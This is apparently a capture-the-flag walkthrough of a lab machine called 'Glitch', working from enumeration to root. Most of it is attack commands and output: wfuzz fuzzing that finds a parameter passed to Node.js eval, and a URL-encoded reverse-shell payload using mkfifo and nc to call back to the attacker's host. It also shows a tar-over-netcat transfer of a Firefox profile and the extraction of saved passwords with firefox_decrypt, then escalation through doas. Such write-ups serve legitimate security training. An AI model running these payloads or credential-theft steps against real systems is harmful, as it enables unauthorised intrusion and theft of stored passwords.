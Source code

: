 ##Glitch

#Enumeration
```
# Nmap 7.91 scan initiated Mon Apr 19 21:07:14 2021 as: nmap -sC -sV -oN nmap/initial 10.10.16.30
Nmap scan report for 10.10.16.30
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 19 21:07:43 2021 -- 1 IP address (1 host up) scanned in 28.45 seconds
```
Looks like just a web server running on port 80 so lets check it out

#Web Server
Looking at the source code on port 80 we find the following
```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>not allowed</title>

    <style>
      * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      body {
        height: 100vh;
        width: 100%;
        background: url('img/glitch.jpg') no-repeat center center / cover;
      }
    </style>
  </head>
  <body>
    <script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
  </body>
</html>
```
Look like a function getAccess() is present that makes a GET request from /api/access and logs the response to the console. It is never called, but we can use developer tools to call it and get the output.
Object { token: "dGhpc19pc19ub3RfcmVhbA==" }

echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
redacted access token

Looking at the stored cookies we find one called token and here we can place the access token value to gain access to the actual site.
There doesn't seem to be much of interest to progress further besides a link /js/script.js which contains the following
```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();

```
Lets try and play with the api and send a POST request to /api/items, to which we get the following
```
curl -X POST http://10.10.16.30/api/items
{"message":"there_is_a_glitch_in_the_matrix"}
```
so lets fuzz this to find something viable to use
```
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt -X POST --hh 45 -u http://10.10.16.30/api/items\?FUZZ\=test
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.16.30/api/items?FUZZ=test
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000179:   500        10 L     64 W       1081 Ch     "cmd"

Total time: 18.65337
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 50.98273
```
Sending a POST request gives us the following error
```
curl -X POST http://10.10.16.30/api/items?cmd=test                                                                
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```
It seems like it is attempting to take our argument and pass it to the eval function which evaluates javascript in Node.js. We search up RCE for Node.js and find the following article 
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
Looks like we can exploit this eval function to obtain a reverse shell
```
curl -X POST http://10.10.16.30/api/items?cmd=require%28%27child_process%27%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.13.1.12%204242%20%3E%2Ftmp%2Ff%27%29
```
We now have a shell spawned and can find the user flag in the home directory of user

#Privilege Escalation
We find a .firefox directory with a profile amidst others and can use a script firefox_decrypt to extract the information. 
On target

tar cf - .firefox/ | nc <our ip> <our port>

On our box

nc -lvp <our port> | tar xf -
we can then use the script as follow
```
./firefox_decrypt.py ../.firefox/b5w4643p.default-release
2021-04-19 22:29:44,453 - WARNING - profile.ini not found in ../.firefox/b5w4643p.default-release
2021-04-19 22:29:44,453 - WARNING - Continuing and assuming '../.firefox/b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'redacted'
```
We can use this password to login as the v0id user.
At this point however we can't really find anything to escalate further, so we can look at the hint and says sudo is bloat. Looking this up we find a video and links talking about using doas instead so lets give it a try
```
v0id@ubuntu:~$ sudo -l
[sudo] password for v0id:
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:~$ doas -u root /bin/bash
Password:
root@ubuntu:/home/v0id# cd /root
root@ubuntu:~# ls
clean.sh  root.txt
```
And there we go we have root and the flag